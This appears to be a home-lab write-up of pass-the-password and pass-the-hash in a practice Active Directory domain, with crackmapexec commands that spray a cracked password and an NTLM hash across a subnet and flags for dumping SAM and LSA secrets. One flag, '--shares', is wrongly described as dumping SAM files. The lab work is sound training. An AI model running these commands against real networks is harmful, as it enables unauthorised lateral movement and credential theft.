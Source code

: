 Setup win2022 server: 192.168.64.138  
Setup Peterparker: \192.168.64.140  
Setup Frankcastle: 192.168.64.139  
Kali: \192.168.64.129/24  

## 🚩 'Pass Attacks' - Pass the Password / Pass the Hash.  

### Pass the Password  
With a SAM dump and cracked hash, we have the ability to push the credentials around with every device that has the ability to recieve and accept the login attempt.  

crackmapexec SMB Password abuse: 

    crackmapexec smb 192.168.64.0/24 -u fcastle -d MARVEL.local -p Password1

![image](https://github.com/user-attachments/assets/025b48ea-6702-4094-ae25-c54168fb1607)
We can see that the username and password has been passed around the network and was successful only on Spiderman and Thepunisher devices. Although there was a succesful authentication on Hyrda-DC, fcastle is not a local admin on that device therefore there is no login. 

---

## 🚩 Pass the Hash  
With a SAM dump containing local Admin credentials (likely gathered during the initial attack stage), we can also pass a local admin account credentials with hash around the network and observe what devices will accept these credentials.

crackmapexec SMB Hash abuse:

    crackmapexec smb 192.168.64.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc --local-auth

![image](https://github.com/user-attachments/assets/13e70253-c999-4110-baf0-1cab4d1841f4)  
Local admin account succesful for Spiderman and Thepunisher  

adding the below flags behind --local-auth:   
--sam {dumps all local SAM files found}  
--shares {dumps all local SAM files found}  
--lsa {local security authority}  

crackmapexec smb -L will list out all the modules we can use with SMB
